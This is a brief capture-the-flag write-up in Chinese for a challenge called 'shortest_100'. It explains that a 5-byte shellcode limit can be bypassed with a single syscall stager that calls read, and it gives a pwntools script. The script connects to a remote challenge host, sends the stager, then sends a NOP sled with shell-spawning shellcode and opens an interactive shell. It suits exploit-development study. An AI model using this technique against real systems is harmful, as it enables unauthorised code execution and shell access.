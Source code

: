 # shortest_100

只能读 5 个字节 Shellcode，其实寄存器都很配合，直接传 syscall 就能调用到 read。触发之后直接送真正的 Shellcode：

```python
#!/usr/bin/env python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'split', '-h']

local = 0
if local:
    p = process('./shortest')
else:
    p = remote('10.21.13.112', 10001)

sh = asm('''
    syscall
''')
info(len(sh))
p.recvuntil('welcome>> ')
p.sendline(sh)
p.sendline('\x90' * 0x10 + asm(shellcraft.sh()))

p.interactive()
```
